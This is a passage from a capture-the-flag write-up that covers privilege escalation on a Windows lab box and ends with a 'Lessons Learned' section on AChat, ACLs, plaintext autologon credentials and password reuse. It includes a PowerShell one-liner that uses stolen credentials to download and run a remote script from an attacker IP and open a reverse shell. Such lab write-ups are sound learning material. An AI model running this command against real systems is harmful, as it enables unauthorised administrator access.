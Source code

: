 On the target machine, use the credentials to start PowerShell to download the _shell-admin.ps1_ script, run it and send a reverse shell back to our attack machine.

```text
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7:5555/shell-admin.ps1')" -Credential $cred
```

We get a shell with administrator privileges!

![](../images/max/767/1*FzEuxFT88c3h8BlJVEsEVg.png)

Now we can view the _root.txt_ flag without having to change the ACL permissions on it.

![](../images/max/785/1*Bf2Jui2BxcVzj2W4SI-wIg.png)

## Lessons Learned <a id="a720"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Buffer Overflow vulnerability. The AChat chat service being used was vulnerable to a known remote buffer overflow vulnerability. This allowed us to execute shell code on the box and send a reverse shell back to our attack machine. Since this is a known vulnerability, the administrator should have used the patched version of AChat or completely disabled the service if a patch is not available.

To escalate privileges we exploited three vulnerabilities.

1. Security misconfiguration. The _Alfred_ user had full access on the _Administrator_ directory and owned the _root.txt_ file. Although we weren’t initially able to view the _root.txt_ file, we did own it so we simply granted ourselves access to view the file. The administrator should have conformed to the principle of least privilege when setting up user permissions.
2. Automatic logon credentials saved in plaintext. Again, I’m not too familiar with the Windows system, but it seems like there is an option to store [automatic logon credentials in encrypted form](https://docs.microsoft.com/en-us/windows/win32/secauthn/protecting-the-automatic-logon-password). This way, as a non-privileged user we wouldn’t have been able to access these credentials.
3. Reuse of credentials. The administrator had setup his password to be the same as the password used for automatic logon. Since these credentials are saved in cleartext in the registry, we were able to view them and start up a PowerShell process that sent a privileged reverse shell back to our attack machine in the context of the Administrator user. It goes without saying that you should definitely not reuse credentials, especially when setting up a non-privileged account where the credentials will be stored in plaintext.

